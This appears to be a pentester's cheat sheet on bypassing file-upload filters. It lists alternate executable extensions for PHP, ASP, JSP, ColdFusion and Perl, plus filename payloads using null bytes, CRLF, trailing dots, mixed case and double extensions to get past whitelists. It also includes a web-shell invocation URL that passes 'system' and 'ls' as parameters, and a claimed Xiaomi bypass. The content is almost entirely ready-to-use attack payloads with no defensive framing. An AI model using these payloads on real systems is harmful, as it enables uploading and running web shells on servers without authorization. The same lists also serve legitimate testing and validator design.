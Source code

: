 # 404  File upload Bypass

# Blacklisting Bypass
PHP → .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
ASP → .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp → .jsp, .jspx, .jsw, .jsv, .jspf
Coldfusion → .cfm, .cfml, .cfc, .dbm
Perl → .pl, .cgi
# Using random capitalization → .pHp, .pHP5, .PhAr

#http://target.com/path/to/shell.php?__=system&___=ls



Bypass file upload on xiaomi With this method
.extentions./%00.png
Example :
.php.%00.png



# Whitelisting Bypass
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg

